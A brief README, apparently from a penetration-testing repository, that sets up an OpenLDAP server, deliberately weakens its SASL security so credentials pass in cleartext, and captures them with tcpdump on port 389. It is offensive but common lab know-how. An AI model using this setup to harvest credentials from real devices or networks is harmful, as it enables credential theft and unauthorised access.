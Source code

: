 
To install sldap
```Script
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

To reconfigure sldap
```Script
sudo dpkg-reconfigure -p low slapd
```

To downgrade the security, creat olcSaslSecProps.ldif file.
```Script
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```

```Script
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
To verify
```Script
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```

To capture LDAP credentials
```Script
sudo tcpdump -SX -i eth0 tcp port 389
```

